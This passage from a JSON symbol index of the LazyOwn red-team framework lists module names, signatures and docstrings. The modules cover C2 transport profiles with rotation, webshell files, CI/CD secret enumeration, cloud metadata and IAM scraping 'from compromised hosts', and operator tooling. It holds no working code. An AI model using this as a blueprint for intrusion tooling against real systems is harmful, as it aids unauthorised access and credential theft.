rotate(self)"}, {"doc": "Return a list of slot states for inspection.", "kind": "method", "line": 487, "name": "list_slots", "signature": "def list_slots(self)"}, {"doc": "Validate a TlsProfile and return error messages.", "kind": "method", "line": 511, "name": "validate_tls", "signature": "def validate_tls(profile)"}, {"doc": "Validate a DnsProfile and return error messages.", "kind": "method", "line": 536, "name": "validate_dns", "signature": "def validate_dns(profile)"}, {"doc": "Validate an SmbProfile and return error messages.", "kind": "method", "line": 556, "name": "validate_smb", "signature": "def validate_smb(profile)"}, {"doc": "Validate a WebSocketProfile and return error messages.", "kind": "method", "line": 576, "name": "validate_websocket", "signature": "def validate_websocket(profile)"}, {"doc": "Validate all provided profiles and return a dict of transport -> errors.", "kind": "method", "line": 591, "name": "validate_all", "signature": "def validate_all(self, tls, dns, smb, websocket)"}, {"kind": "method", "line": 627, "name": "__init__", "signature": "def __init__(self, tls_profile, dns_profile, smb_profile, websocket_profile, rotation_slots)"}, {"doc": "Return the current TLS profile.", "kind": "method", "line": 643, "name": "tls_profile", "signature": "def tls_profile(self)"}, {"doc": "Return the current DNS profile.", "kind": "method", "line": 648, "name": "dns_profile", "signature": "def dns_profile(self)"}, {"doc": "Return the current SMB profile.", "kind": "method", "line": 653, "name": "smb_profile", "signature": "def smb_profile(self)"}, {"doc": "Return the current WebSocket profile.", "kind": "method", "line": 658, "name": "websocket_profile", "signature": "def websocket_profile(self)"}, {"doc": "Return the profile rotator.", "kind": "method", "line": 663, "name": "rotator", "signature": "def rotator(self)"}, {"doc": "Return the currently active transport type.", "kind": "method", "line": 668, "name": "active_transport", "signature": "def active_transport(self)"}, {"doc": "Advance to the next transport in the rotation queue.", "kind": "method", "line": 672, "name": "rotate", "signature": "def rotate(self)"}, {"doc": "Validate all transport profiles and return error dict.", "kind": "method", "line": 676, "name": "validate", "signature": "def validate(self)"}, {"doc": "Return a JSON-serializable dict of the active transport config.", "kind": "method", "line": 685, "name": "get_active_profile_dict", "signature": "def get_active_profile_dict(self)"}, {"doc": "Return a JSON-serializable dict of all profiles.", "kind": "method", "line": 699, "name": "get_all_profiles_dict", "signature": "def get_all_profiles_dict(self)"}, {"doc": "Build default rotation slots from enabled transports.", "kind": "method", "line": 709, "name": "_default_slots", "signature": "def _default_slots(self)"}, {"doc": "Build a ProfileEngine from a configuration dictionary.\n\nExpected structure:\n    {\n        \"c2_tls\": {...},\n        \"c2_dns\": {...},\n        \"c2_smb\": {...},\n        \"c2_websocket\": {...}\n    }", "kind": "method", "line": 747, "name": "from_dict", "signature": "def from_dict(cls, raw)"}, {"doc": "Build a ProfileEngine from a LazyOwn payload configuration dict.", "kind": "method", "line": 766, "name": "from_payload", "signature": "def from_payload(cls, payload)"}, {"doc": "Build a ProfileEngine from a LazyOwn Config object.", "kind": "method", "line": 771, "name": "from_config", "signature": "def from_config(cls, config)"}]}, {"doc": "Función para calcular si un año es bisiesto", "id": "modules/cal.sh", "kind": "module", "label": "cal.sh", "language": "sh", "sha256": "aaf37861917f2f97", "symbol_count": 3, "symbols": [{"doc": "Función para calcular si un año es bisiesto", "kind": "function", "line": 4, "name": "is_leap_year"}, {"doc": "Función para obtener el número de días en un mes", "kind": "function", "line": 14, "name": "days_in_month"}, {"doc": "Función para obtener el día de la semana del primer día del mes", "kind": "function", "line": 31, "name": "first_day_of_month"}]}, {"doc": "modules/categories.py ===================== cmd2 command category strings for LazyOwn.  Extracted from utils.py so they can be imported independently without pulling in the full utils dependency tree.  Usage: from modules.categories import recon_category, scanning_category", "id": "modules/categories.py", "kind": "module", "label": "categories.py", "language": "py", "sha256": "78e9f4a0c3c713a1", "symbol_count": 0, "symbols": []}, {"id": "modules/cgi-bin/lazywebshell.py", "kind": "module", "label": "lazywebshell.py", "language": "py", "sha256": "7f58c3623036e5ee", "symbol_count": 0, "symbols": []}, {"id": "modules/cgi-bin/lazywebshell.sh", "kind": "module", "label": "lazywebshell.sh", "language": "sh", "sha256": "85008c4539366f85", "symbol_count": 0, "symbols": []}, {"doc": "CI/CD Pipeline Enumeration Module.  Enumerates CI/CD platforms (Jenkins, GitLab, GitHub Actions) for: - Exposed build logs with leaked secrets - Misconfigured pipeline triggers (PRs from forks) - Unauthenticated pipeline execution - Build server credential stores - Repository secrets accessible to pipeline YAML - Artifact storage with sensitive build outputs", "id": "modules/cicd_enumerator.py", "kind": "module", "label": "cicd_enumerator.py", "language": "py", "sha256": "3572c9438b5190b2", "symbol_count": 12, "symbols": [{"kind": "class", "line": 33, "name": "CICDFinding", "signature": "class CICDFinding"}, {"doc": "Enumerate CI/CD platforms for security misconfigurations.\n\nSupports Jenkins, GitLab CI, GitHub Actions, Bitbucket Pipelines,\nand Azure DevOps.\n\nArgs:\n    target_url: Base URL of the CI/CD platform.\n    sessions_dir: Directory for discovery output.", "kind": "class", "line": 43, "name": "CICDEnumerator", "signature": "class CICDEnumerator"}, {"kind": "method", "line": 54, "name": "__init__", "signature": "def __init__(self, target_url, sessions_dir)"}, {"doc": "Run all CI/CD scans.\n\nReturns:\n    List of CICDFinding objects.", "kind": "method", "line": 60, "name": "scan", "signature": "def scan(self)"}, {"kind": "method", "line": 73, "name": "_check_jenkins", "signature": "def _check_jenkins(self)"}, {"kind": "method", "line": 120, "name": "_check_gitlab", "signature": "def _check_gitlab(self)"}, {"kind": "method", "line": 189, "name": "_check_github_actions", "signature": "def _check_github_actions(self)"}, {"kind": "method", "line": 230, "name": "_check_azure_devops", "signature": "def _check_azure_devops(self)"}, {"kind": "method", "line": 266, "name": "_check_bitbucket", "signature": "def _check_bitbucket(self)"}, {"doc": "Scan a build log for leaked secrets.\n\nArgs:\n    log_content: Raw build log text.\n    source: Description of the log source.\n\nReturns:\n    List of dicts with matched secrets.", "kind": "method", "line": 297, "name": "scan_build_log", "signature": "def scan_build_log(self, log_content, source)"}, {"doc": "Generate a comprehensive CI/CD attack matrix.\n\nReturns:\n    Path to the JSON attack matrix file.", "kind": "method", "line": 322, "name": "generate_ci_attack_matrix", "signature": "def generate_ci_attack_matrix(self)"}, {"doc": "Export CI/CD findings to a JSON file.\n\nReturns:\n    Path to the findings file.", "kind": "method", "line": 387, "name": "export_findings", "signature": "def export_findings(self)"}]}, {"doc": "CLI authentication module — login against users.json with remember-me.  Authenticates CLI operators against the same ``users.json`` database used by lazyc2.py, using werkzeug's scrypt password verification.  Supports a \"remember me\" token stored in ``payload.json`` under ``cli_remember_token`` so operators can skip login on subsequent shell starts. The token is a random 48-byte URL-safe string bound to the username and stored both in ``payload.json`` and per-user in ``users.json`` entries.", "id": "modules/cli_auth.py", "kind": "module", "label": "cli_auth.py", "language": "py", "sha256": "db47784687a753da", "symbol_count": 18, "symbols": [{"doc": "Load the users.json database.\n\nReturns:\n    List of user dicts, or empty list on any error.", "kind": "function", "line": 34, "name": "_load_users", "signature": "def _load_users()"}, {"doc": "Atomically write the users.json database.\n\nRefuses to overwrite an existing database with an empty list (a read\nfailure upstream must never wipe the store), keeps the file readable\nonly by its owner, and preserves the previous owner when running as\nroot so mixed root / operator processes never lock each other out.\n\nArgs:\n    users: List of user dicts to persist.\n\nReturns:\n    True on success.", "kind": "function", "line": 52, "name": "_save_users", "signature": "def _save_users(users)"}, {"doc": "Load payload.json.\n\nReturns:\n    Payload dict, or empty dict.", "kind": "function", "line": 85, "name": "_load_payload", "signature": "def _load_payload()"}, {"doc": "Atomically write payload.json via the canonical config writer.\n\nDelegates to :func:`core.config.save_payload` so remember-me\nupdates get the same crash-safe write and config-change audit as\nevery other payload mutation.\n\nArgs:\n    payload: Payload dict to persist.\n\nReturns:\n    True on success, False on any error.", "kind": "function", "line": 100, "name": "_save_payload", "signature": "def _save_payload(payload)"}, {"doc": "Check if a username already exists in users.json or RBAC store.\n\nArgs:\n    username: Username to check.\n\nReturns:\n    True if the username already exists.", "kind": "function", "line": 122, "name": "user_exists", "signature": "def user_exists(username)"}, {"doc": "Register a new operator in users.json.\n\nFollows the same logic as the lowazyc2.py /register endpoint.\nFirst user becomes admin; subsequent users get the default role.\nMinimum 12-character password.\n\nArgs:\n    username: Desired username.\n    password: Clelazyt password.\n\nReturns:\n    Dict with ``success``, ``username``, ``role`` keys.", "kind": "function", "line": 145, "name": "register", "signature": "def register(username, password)"}, {"doc": "Verify a username/password against users.json using werkzeug.\n\nArgs:\n    username: Operator username.\n    password: Clear-text password attempt.\n\nReturns:\n    True if the credentials match a user in users.json.", "kind": "function", "line": 214, "name": "verify_password", "signature": "def verify_password(username, password)"}, {"doc": "Authenticate a CLI operator and optionally persist a remember-me token.\n\nArgs:\n    username: Operator username.\n    password: Clear-text password.\n    remember: If True, persist a remember-me token in payload.json\n        and users.json for auto-login on future shell starts.\n\nReturns:\n    Dict with ``success``, ``username``, ``elo``, ``role``, ``remember`` keys.", "kind": "function", "line": 240, "name": "login", "signature": "def login(username, password, remember)"}, {"doc": "Log out the current CLI operator and clear the remember-me token.\n\nReturns:\n    Dict with ``success`` key.", "kind": "function", "line": 293, "name": "logout", "signature": "def logout()"}, {"doc": "Attempt auto-login using the remember-me token from payload.json.\n\nCalled at shell startup (preloop). If ``cli_auto_login`` is set in\npayload.json and the token matches a user's stored token, logs in\nsilently without prompting for credentials.\n\nReturns:\n    Dict with ``success``, ``username``, ``elo``, ``role``.", "kind": "function", "line": 328, "name": "try_auto_login", "signature": "def try_auto_login()"}, {"doc": "Return the currently logged-in CLI operator's identity.\n\nReturns:\n    Dict with ``logged_in``, ``username``, ``elo``, ``role``.", "kind": "function", "line": 366, "name": "whoami", "signature": "def whoami()"}, {"doc": "Return the current operator username, or None if not logged in.\n\nReturns:\n    Username string or None.", "kind": "function", "line": 396, "name": "get_current_operator", "signature": "def get_current_operator()"}, {"doc": "Update the CLI session ELO from engagement state.\n\nArgs:\n    elo: New ELO value to store in the session.", "kind": "function", "line": 408, "name": "sync_elo_from_session", "signature": "def sync_elo_from_session(elo)"}, {"doc": "Read the CLI session file.\n\nReturns:\n    Session dict or None.", "kind": "function", "line": 429, "name": "_read_cli_session", "signature": "def _read_cli_session()"}, {"doc": "Write the CLI session file.\n\nArgs:\n    username: Operator username.\n    elo: Current ELO score.\n    role: RBAC role.", "kind": "function", "line": 444, "name": "_write_cli_session", "signature": "def _write_cli_session(username, elo, role)"}, {"doc": "Write arbitrary dict to the CLI session file.\n\nArgs:\n    data: Session data dict.", "kind": "function", "line": 462, "name": "_write_cli_session_raw", "signature": "def _write_cli_session_raw(data)"}, {"doc": "Remove the CLI session file.", "kind": "function", "line": 478, "name": "_clear_cli_session", "signature": "def _clear_cli_session()"}, {"doc": "Check if the current session has a logged-in operator.\n\nReturns:\n    True if no valid session exists.", "kind": "function", "line": 487, "name": "needs_login", "signature": "def needs_login()"}]}, {"doc": "Native cloud enumeration modules for AWS, Azure, and GCP.  Provides IMDS scraping, storage enumeration, IAM enumeration, and privilege escalation detection for major cloud providers.", "id": "modules/cloud_enum.py", "kind": "module", "label": "cloud_enum.py", "language": "py", "sha256": "adc30cf4fe1a3634", "symbol_count": 17, "symbols": [{"doc": "Enumerate cloud provider metadata, storage, and IAM from compromised hosts.\n\nSupports AWS, Azure, and GCP with automatic provider detection.\n\nArgs:\n    provider: Cloud provider hint ('aws', 'azure', 'gcp', 'auto').\n    session: Optional requests.Session for authenticated requests.\n    timeout: Request timeout in seconds.", "kind": "class", "line": 23, "name": "CloudEnumerator", "signature": "class CloudEnumerator"}, {"kind": "method", "line": 34, "name": "__init__", "signature": "def __init__(self, provider, session, timeout)"}, {"doc": "Auto-detect which cloud provider the host is running on.\n\nReturns:\n    Provider name ('aws', 'azure', 'gcp') or None.", "kind": "method", "line": 47, "name": "detect_provider", "signature": "def detect_provider(self)"}, {"doc": "Enumerate cloud instance metadata (IMDS).\n\nReturns:\n    Dict with provider, instance_id, region, and metadata fields.", "kind": "method", "line": 75, "name": "enumerate_metadata", "signature": "def enumerate_metadata(self)"}, {"doc": "Enumerate AWS EC2 instance metadata.", "kind": "method", "line": 96, "name": "_enumerate_aws_metadata", "signature": "def _enumerate_aws_metadata(self)"}, {"doc": "Enumerate Azure VM instance metadata.", "kind": "method", "line": 146, "name": "_enumerate_azure_metadata", "signature": "def _enumerate_azure_metadata(self)"}, {"doc": "Enumerate GCP Compute Engine instance metadata.", "kind": "method", "line": 193, "name": "_enumerate_gcp_metadata", "signature": "def _enumerate_gcp_metadata(self)"}, {"doc": "Enumerate cloud storage buckets and objects.\n\nUses CLI tools (aws, az, gcloud) if available on the host.\n\nArgs:\n    target_bucket: Optional specific bucket name to enumerate.\n\nReturns:\n    List of dicts with bucket names and access levels.", "kind": "method", "line": 251, "name": "enumerate_storage", "signature": "def enumerate_storage(self, target_bucket)"}, {"doc": "Enumerate AWS S3 buckets.", "kind": "method", "line": 274, "name": "_enumerate_s3", "signature": "def _enumerate_s3(self, target_bucket)"}, {"doc": "Enumerate Azure storage accounts.", "kind": "method", "line": 316, "name": "_enumerate_azure_storage", "signature": "def _enumerate_azure_storage(self, target_bucket)"}, {"doc": "Enumerate GCP Cloud Storage buckets.", "kind": "method", "line": 350, "name": "_enumerate_gcs", "signature": "def _enumerate_gcs(self, target_bucket)"}, {"doc": "Enumerate IAM roles, users, and policies.\n\nReturns:\n    Dict with users, roles, policies, and privilege escalation paths.", "kind": "method", "line": 372, "name": "enumerate_iam", "signature": "def enumerate_iam(self)"}, {"doc": "Enumerate AWS IAM.", "kind": "method", "line": 390, "name": "_enumerate_aws_iam", "signature": "def _enumerate_aws_iam(self)"}, {"doc": "Enumerate Azure IAM (Entra ID).", "kind": "method", "line": 421, "name": "_enumerate_azure_iam", "signature": "def _enumerate_azure_iam(self)"}, {"doc": "Enumerate GCP IAM.", "kind": "method", "line": 477, "name": "_enumerate_gcp_iam", "signature": "def _enumerate_gcp_iam(self)"}, {"doc": "Check AWS IAM for common privilege escalation paths.\n\nArgs:\n    data: IAM enumeration data.\n\nReturns:\n    List of potential privesc paths found.", "kind": "method", "line": 526, "name": "_check_aws_privesc", "signature": "def _check_aws_privesc(data)"}, {"doc": "Run full cloud enumeration: metadata + storage + IAM.\n\nReturns:\n    Dict with metadata, storage, and iam sections.", "kind": "method", "line": 576, "name": "full_enumeration", "signature": "def full_enumeration(self)"}]}, {"doc": "modules/collab_bp.py ==================== Multi-operator collaboration layer for LazyOwn.  Provides: - Server-Sent Events (SSE) stream at /collab/stream  -- real-time broadcast to all operators - Target locking  at /collab/lock / /collab/unlock   -- prevents two operators executing same target - Operator registry at /collab/operators             -- who is currently connected - Event bus at /collab/publish                       -- any module can push structured events  Design (SOLID) -------------- - SRP : EventBus, LockManager, OperatorRegistry are independent classes - OCP : new event types added by publishing with a new \"type\" field - LSP : OperatorRegistry and LockManager share a common Resettable interface - ISP : consumers only import the blueprint; internal classes are not exposed - DIP : Blueprint depends on injected EventBus / LockManager instances (testable)  Authentication -------------- All endpoints require authentication (login_required + require_permission). Operators are identified from their authenticated session, not from self-reported query parameters.  The ``operator`` field in events is derived from the ``current_user`` identity.", "id": "modules/collab_bp.py", "kind": "module", "label": "collab_bp.py", "language": "py", "sha256": "3472486bd9b5089f", "symbol_count": 49, "symbols": [{"doc": "Return the authenticated operator handle, or 'anonymous' if not logged in.", "kind": "function", "line": 90, "name": "_authenticated_operator", "signature": "def _authenticated_operator()"}, {"doc": "Check if the current user has a specific collaboration permission.", "kind": "function", "line": 100, "name": "_check_collab_permission", "signature": "def _check_collab_permission(perm_name)"}, {"doc": "Authentication decorator that also verifies collaboration permission.", "kind": "function", "line": 120, "name": "_collab_login_required", "signature": "def _collab_login_required(f)"}, {"doc": "Decorator that checks both auth and specific collab permission.", "kind": "function", "line": 136, "name": "_collab_permission_required", "signature": "def _collab_permission_required(perm_name)"}, {"kind": "class", "line": 163, "name": "ColabEvent", "signature": "class ColabEvent"}, {"kind": "class", "line": 176, "name": "OperatorInfo", "signature": "class OperatorInfo"}, {"doc": "In-process pub/sub bus.\nEach subscriber gets its own Queue; publish() fans out to all queues.\nThread-safe.", "kind": "class", "line": 188, "name": "EventBus", "signature": "class EventBus"}, {"kind": "class", "line": 250, "name": "TargetLock", "signature": "class TargetLock"}, {"doc": "Per-target advisory locks. Prevents two operators running tools\nagainst the same host simultaneously.", "kind": "class", "line": 257, "name": "LockManager", "signature": "class LockManager"}, {"doc": "Tracks which operators are currently connected.", "kind": "class", "line": 314, "name": "OperatorRegistry", "signature": "class OperatorRegistry"}, {"kind": "function", "line": 370, "name": "get_event_bus", "signature": "def get_event_bus()"}, {"kind": "function", "line": 374, "name": "get_lock_manager", "signature": "def get_lock_manager()"}, {"kind": "function", "line": 378, "name": "get_operator_registry", "signature": "def get_operator_registry()"}, {"doc": "Module-level convenience for other modules to broadcast events.", "kind": "function", "line": 382, "name": "publish_event", "signature": "def publish_event(type, payload, operator)"}, {"kind": "function", "line": 396, "name": "collab_ui", "signature": "def collab_ui()"}, {"kind": "function", "line": 411, "name": "stream", "signature": "def stream()"}, {"kind": "function", "line": 458, "name": "operators", "signature": "def operators()"}, {"kind": "function", "line": 470, "name": "publish", "signature": "def publish()"}, {"kind": "function", "line": 483, "name": "lock", "signature": "def lock()"}, {"kind": "function", "line": 504, "name": "unlock", "signature": "def unlock()"}, {"kind": "function", "line": 522, "name": "locks", "signature": "def locks()"}, {"kind": "function", "line": 537, "name": "history", "signature": "def history()"}, {"kind": "function", "line": 124, "name": "decorated", "signature": "def decorated()"}, {"kind": "function", "line": 139, "name": "decorator", "signature": "def decorator(f)"}, {"kind": "method", "line": 170, "name": "to_sse", "signature": "def to_sse(self)"}, {"kind": "method", "line": 198, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 203, "name": "subscribe", "signature": "def subscribe(self, subscriber_id)"}, {"kind": "method", "line": 215, "name": "unsubscribe", "signature": "def unsubscribe(self, subscriber_id)"}, {"kind": "method", "line": 219, "name": "publish", "signature": "def publish(self, event)"}, {"kind": "method", "line": 234, "name": "recent", "signature": "def recent(self, n)"}, {"kind": "method", "line": 238, "name": "reset", "signature": "def reset(self)"}, {"kind": "method", "line": 263, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 267, "name": "acquire", "signature": "def acquire(self, target, operator, ttl_secs)"}, {"kind": "method", "line": 279, "name": "release", "signature": "def release(self, target, operator)"}, {"kind": "method", "line": 287, "name": "status", "signature": "def status(self, target)"}, {"kind": "method", "line": 292, "name": "all_locks", "signature": "def all_locks(self)"}, {"kind": "method", "line": 297, "name": "_expire", "signature": "def _expire(self)"}, {"kind": "method", "line": 304, "name": "reset", "signature": "def reset(self)"}, {"kind": "method", "line": 319, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 323, "name": "join", "signature": "def join(self, name)"}, {"kind": "method", "line": 334, "name": "heartbeat", "signature": "def heartbeat(self, name)"}, {"kind": "method", "line": 340, "name": "leave", "signature": "def leave(self, name)"}, {"kind": "method", "line": 345, "name": "active_operators", "signature": "def active_operators(self)"}, {"kind": "method", "line": 350, "name": "_expire", "signature": "def _expire(self)"}, {"kind": "method", "line": 356, "name": "reset", "signature": "def reset(self)"}, {"kind": "function", "line": 424, "name": "generate", "signature": "def generate()"}, {"doc": "No-op decorator when Flask-Login is unavailable.", "kind": "function", "line": 80, "name": "login_required", "signature": "def login_required(f)"}, {"kind": "function", "line": 141, "name": "decorated", "signature": "def decorated()"}, {"kind": "function", "line": 84, "name": "decorated", "signature": "def decorated()"}]}, {"id": "modules/colors.py", "kind": "module", "label": "colors.py", "language": "py", "sha256": "68a3ffffd552f813", "symbol_count": 3, "symbols": [{"doc": "gemma2-9b-it        Google  8,192   -       -\nllama-3.3-70b-versatile     Meta    128k    32,768  -\nllama-3.1-8b-instant        Meta    128k    8,192   -\ngemma2-9b-it        Meta    8,192   -       -\nllama3-70b-8192     Meta    8,192   -       -\nllama3-8b-8192      Meta    8,192   -       -\nmixtral-8x7b-32768  Mistral 32,768", "kind": "function", "line": 40, "name": "retModel", "signature": "def retModel()"}, {"kind": "function", "line": 68, "name": "delete_lines", "signature": "def delete_lines(content, to_delete)"}, {"kind": "function", "line": 74, "name": "no_html", "signature": "def no_html(content)"}]}, {"doc": "UnifiedCommandExecutor — shared shell command execution service.  Replaces scattered subprocess calls across CLI, C2, and MCP with a single executor that: - Runs commands via subprocess (real-time streaming or capture) - Publishes events via UnifiedEventBus - Logs to CSV via session report - Records metrics (duration, exit code, success) - Stores output in StateManager when relevant  Design (SOLID) -------------- - Single Responsibility : only command execution and its observability. - Open/Closed           : new output handlers via Callable hooks. - Liskov                : all execution modes return typed ExecutionResult. - Interface Segregation : just ``run()`` and ``run_capture()``. - Dependency Inversion  : consumers depend on the executor, not on subprocess.", "id": "modules/command_executor.py", "kind": "module", "label": "command_executor.py", "language": "py", "sha256": "9729d474ed5ca7be", "symbol_count": 24, "symbols": [{"doc": "Bound the next ``run_tee`` call on this thread by wall-clock seconds.", "kind": "function", "line": 41, "name": "set_thread_timeout", "signature": "def set_thread_timeout(seconds)"}, {"doc": "Remove this thread's ``run_tee`` deadline, if any.", "kind": "function", "line": 46, "name": "clear_thread_timeout", "signature": "def clear_thread_timeout()"}, {"doc": "Return this thread's pending ``run_tee`` deadline, or None.", "kind": "function", "line": 54, "name": "thread_timeout", "signature": "def thread_timeout()"}, {"doc": "Detach the next ``run_tee`` child from the operator terminal.", "kind": "function", "line": 59, "name": "set_thread_stdin_devnull", "signature": "def set_thread_stdin_devnull(enabled)"}, {"doc": "Restore inherited stdin for this thread's ``run_tee`` calls.", "kind": "function", "line": 64, "name": "clear_thread_stdin_devnull", "signature": "def clear_thread_stdin_devnull()"}, {"doc": "Return True when this thread's ``run_tee`` children drop stdin.", "kind": "function", "line": 72, "name": "thread_stdin_devnull", "signature": "def thread_stdin_devnull()"}, {"doc": "Kill a tee'd child and every descendant in its session/process group.", "kind": "function", "line": 77, "name": "_kill_process_group", "signature": "def _kill_process_group(proc)"}, {"kind": "class", "line": 97, "name": "ExecutionResult", "signature": "class ExecutionResult"}, {"doc": "Shared shell command execution service.\n\nUsage::\n\n    executor = CommandExecutor()\n    result = executor.run(\"nmap -sC 10.0.0.1\")\n    print(result.output[:200])", "kind": "class", "line": 106, "name": "CommandExecutor", "signature": "class CommandExecutor"}, {"kind": "function", "line": 426, "name": "get_executor", "signature": "def get_executor()"}, {"kind": "method", "line": 118, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 122, "name": "instance", "signature": "def instance(cls)"}, {"doc": "Register a post-execution hook (e.g., for StateManager or metrics).", "kind": "method", "line": 127, "name": "add_hook", "signature": "def add_hook(self, hook)"}, {"doc": "Execute a shell command and return the result.\n\nArgs:\n    command: The shell command string to execute.\n    timeout: Maximum execution time in seconds.\n    stream: If True, print output in real-time. If False, capture silently.\n\nReturns:\n    ExecutionResult with output, exit_code, duration_ms, and success.", "kind": "method", "line": 131, "name": "run", "signature": "def run(self, command, timeout, stream)"}, {"doc": "Check if command needs bash -c due to shell operators.\n\nShared policy from :func:`core.safe_exec.needs_shell` so every\nrunner splits argv versus shell identically.", "kind": "method", "line": 165, "name": "_needs_shell", "signature": "def _needs_shell(self, command)"}, {"doc": "Return the spawn target honoring the shared shell policy.", "kind": "method", "line": 173, "name": "_argv", "signature": "def _argv(self, command)"}, {"doc": "Run a command with stdio inherited, returning its exit code.\n\nUsed for the NOLOGS path: output goes straight to the\noperator terminal (colors intact), nothing is captured.\n\nArgs:\n    command: Shell command string to execute.\n    env: Child environment mapping, or None to inherit.\n\nReturns:\n    The child exit code.", "kind": "method", "line": 179, "name": "run_passthrough", "signature": "def run_passthrough(self, command, env)"}, {"doc": "Run a command teeing raw output bytes to a writer and a log file.\n\nBytes are forwarded untouched (ANSI colors preserved); stderr is\nmerged into stdout exactly like an interactive terminal row.\n\nArgs:\n    command: Shell command string to execute.\n    env: Child environment mapping, or None to inherit. Pass\n        :func:`core.hardening.terminal_env` to keep child colors.\n    writer: Called with every stdout chunk. Defaults to writing\n        and flushing ``sys.stdout``.\n    log_file: Optional path appended with the same chunks.\n    timeout: Wall-clock seconds for ``wait``; None waits forever.\n        On expiry the child is killed and\n        :class:`subprocess.TimeoutExpired` propagates.\n\nReturns:\n    ExecutionResult with the full output and exit code.", "kind": "method", "line": 194, "name": "run_tee", "signature": "def run_tee(self, command)"}, {"doc": "Write a chunk to stdout, flushing immediately.", "kind": "method", "line": 291, "name": "_default_writer", "signature": "def _default_writer(line)"}, {"kind": "method", "line": 296, "name": "_run_capture", "signature": "def _run_capture(self, command, timeout)"}, {"kind": "method", "line": 321, "name": "_run_stream", "signature": "def _run_stream(self, command, timeout)"}, {"doc": "Execute a command and tee output to a file.\n\nArgs:\n    command: Shell command string to execute.\n    output_path: Log file receiving the same raw bytes shown.\n    timeout: Wall-clock seconds; expiry yields an error result.\n\nReturns:\n    ExecutionResult with the full output and exit code.", "kind": "method", "line": 358, "name": "run_with_tee", "signature": "def run_with_tee(self, command, output_path, timeout)"}, {"kind": "method", "line": 394, "name": "_fire_hooks", "signature": "def _fire_hooks(self, result)"}, {"kind": "method", "line": 401, "name": "_publish_event", "signature": "def _publish_event(self, result)"}]}, {"doc": "modules/compliance.py ===================== Enterprise compliance engine for LazyOwn RedTeam Framework.  Capabilities: - Framework mappings (PCI-DSS 4.0, ISO 27001:2022, NIST SP 800-53 Rev 5) - Cryptographic evidence chain (SHA256 merkle-style chain of custody) - PDF report export (via fpdf2, zero external pandoc dependency) - SIEM/Elastic bulk export (JSON-ND format for Elasticsearch, CEF for ArcSight) - Operator attribution in all audit trails - Automated compliance coverage scoring per engagement  Usage: from modules.compliance import ComplianceEngine, EvidenceChain, export_pdf  engine = ComplianceEngine(sessions_dir=\"sessions/default\") report = engine.generate_compliance_report(include_evidence_chain=True) engine.export_pdf(report, \"compliance_report.pdf\")", "id": "modules/compliance.py", "kind": "module", "label": "compliance.py", "language": "py", "sha256": "962e669845150b2f", "symbol_count": 25, "symbols": [{"kind": "class", "line": 340, "name": "EvidenceEntry", "signature": "class EvidenceEntry"}, {"doc": "Merkle-style chain of custody for red-team evidence.\n\nEach file artefact added to the chain is hashed with SHA256 and linked\nto the previous entry, creating a tamper-evident chain. The chain state\nis persisted to ``sessions/evidence_chain.jsonl``.", "kind": "class", "line": 349, "name": "EvidenceChain", "signature": "class EvidenceChain"}, {"doc": "Export a Markdown report to PDF using fpdf2.\n\nZero external dependencies beyond fpdf2 (no pandoc, no weasyprint).\nReturns the output path on success, None on failure.", "kind": "function", "line": 449, "name": "export_pdf", "signature": "def export_pdf(report_md, output_path, title, classification)"}, {"doc": "Export findings as Elasticsearch NDJSON bulk format.\n\nProduces a newline-delimited JSON file compatible with Elasticsearch _bulk API.", "kind": "function", "line": 533, "name": "export_to_elastic_ndjson", "signature": "def export_to_elastic_ndjson(findings, output_path, index_prefix)"}, {"doc": "Export findings in CEF (Common Event Format) for ArcSight/QRadar/Splunk.\n\nCEF:0|<vendor>|<product>|<version>|<signature_id>|<name>|<severity>|<extension>", "kind": "function", "line": 572, "name": "export_to_cef", "signature": "def export_to_cef(findings, output_path, vendor, product, version)"}, {"kind": "class", "line": 620, "name": "ComplianceFinding", "signature": "class ComplianceFinding"}, {"doc": "Generates compliance-mapped reports with evidence chain support.", "kind": "class", "line": 632, "name": "ComplianceEngine", "signature": "class ComplianceEngine"}, {"kind": "method", "line": 357, "name": "__init__", "signature": "def __init__(self, sessions_dir)"}, {"kind": "method", "line": 364, "name": "_load", "signature": "def _load(self)"}, {"kind": "method", "line": 379, "name": "_hash_entry", "signature": "def _hash_entry(self, entry)"}, {"kind": "method", "line": 383, "name": "add_file", "signature": "def add_file(self, filepath, operator, description)"}, {"kind": "method", "line": 403, "name": "_append_to_file", "signature": "def _append_to_file(self, entry)"}, {"kind": "method", "line": 410, "name": "verify", "signature": "def verify(self)"}, {"kind": "method", "line": 429, "name": "get_chain_digest", "signature": "def get_chain_digest(self)"}, {"kind": "method", "line": 432, "name": "to_report", "signature": "def to_report(self)"}, {"kind": "method", "line": 635, "name": "__init__", "signature": "def __init__(self, sessions_dir)"}, {"doc": "Map findings to compliance framework controls.\n\nArgs:\n    findings: List of ComplianceFinding objects.\n    frameworks: List of framework keys (e.g. ['pci_dss', 'iso27001', 'nist_800_53']).\n               If None, all frameworks are included.\n\nReturns:\n    Dict with per-framework coverage and control-level mappings.", "kind": "method", "line": 639, "name": "map_findings_to_compliance", "signature": "def map_findings_to_compliance(self, findings, frameworks)"}, {"doc": "Generate a full compliance report with evidence chain and optional SIEM export.\n\nArgs:\n    findings: List of findings. If None, loads from sessions/.\n    include_evidence_chain: Include cryptographic evidence chain in report.\n    include_siem_formats: Generate NDJSON and CEF exports.\n\nReturns:\n    Comprehensive compliance report dict.", "kind": "method", "line": 710, "name": "generate_compliance_report", "signature": "def generate_compliance_report(self, findings, include_evidence_chain, include_siem_formats)"}, {"kind": "method", "line": 765, "name": "_count_by_severity", "signature": "def _count_by_severity(self, findings)"}, {"kind": "method", "line": 772, "name": "_count_by_category", "signature": "def _count_by_category(self, findings)"}, {"kind": "method", "line": 779, "name": "_load_findings", "signature": "def _load_findings(self)"}, {"kind": "method", "line": 831, "name": "export_pdf", "signature": "def export_pdf(self, report, output_path)"}, {"kind": "method", "line": 835, "name": "_format_compliance_report_md", "signature": "def _format_compliance_report_md(self, report)"}, {"kind": "method", "line": 901, "name": "add_evidence", "signature": "def add_evidence(self, filepath, operator, description)"}, {"kind": "method", "line": 904, "name": "verify_evidence_chain", "signature": "def verify_evidence_chain(self)"}]}, {"doc": "Conditional Hooks System for LazyOwn (Mythic-style triggers).  Lets operators define WHEN->THEN rules that fire automatically on engagement events: beacon connection, credential capture, privilege escalation, host discovery, service detection.  Rules are stored as JSON and evaluated in-process. Multiple actions per trigger, with cooldown to 